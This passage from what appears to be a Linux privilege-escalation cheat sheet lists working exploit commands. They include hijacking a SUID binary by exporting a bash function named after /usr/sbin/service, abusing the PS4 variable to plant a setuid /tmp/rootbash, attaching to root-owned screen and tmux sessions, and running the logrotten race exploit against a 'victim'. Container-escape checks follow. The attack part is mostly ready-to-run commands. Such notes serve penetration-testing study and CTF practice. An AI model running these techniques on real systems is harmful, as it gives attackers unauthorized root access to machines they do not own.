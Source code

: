 > Tip 2: The full path IS specified, but Bash version < 4.2-048, we can abuse shell features with names that resemble file paths!

Example: `/usr/local/bin/suid-env` starts an apache server via `/usr/sbin/service apache2 start` 
Exploit: create and export a shell function to confuse the executable
```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

> Tip 3: When Bash version < 4.4, we can run it in debugging mode and use the `PS4` variable for debugging statements.

Exploit: provide the PS4 variable to run arbitrary commands 
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

# run shell with root privileges
/tmp/rootbash -p
```

## Kernel Exploits

## Others

### Abusing stuff running as ROOT
> **screen**

If screen is running as root, for example:
``` bash
/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root ;; done
```
Try connecting to root screen with `screen -x root/root`.

> **tmux**

If tmux is running as root, try connecting to a session with `tmux -S /.devs/dev_sess`.

> **logrotate**

Race condition affecting versions 3.8.6, 3.11.0, 3.15.0. If:
1. logrotate is running as root
2. versions 3.8.6, 3.11.0, 3.15.0
3. you have write permissions on a log directory

then you can use [logrotten](https://github.com/whotwagner/logrotten)! Download, compile, and run the exploit on victim to profit!


### Container escape
**Environment**
```bash
# check if in container
cat /proc/1/cgroup
# look for owner of /proc (if root/root then you're in a privileged container)
ls -la /proc
```
**Check capabilities**: might escape if you have one of: CAP_SYS_ADMIN, CAP_SYS_PTRACE, CAP_SYS_MODULE, DAC_READ_SEARCH, DAC_OVERRIDE
```bash
capsh --print
```
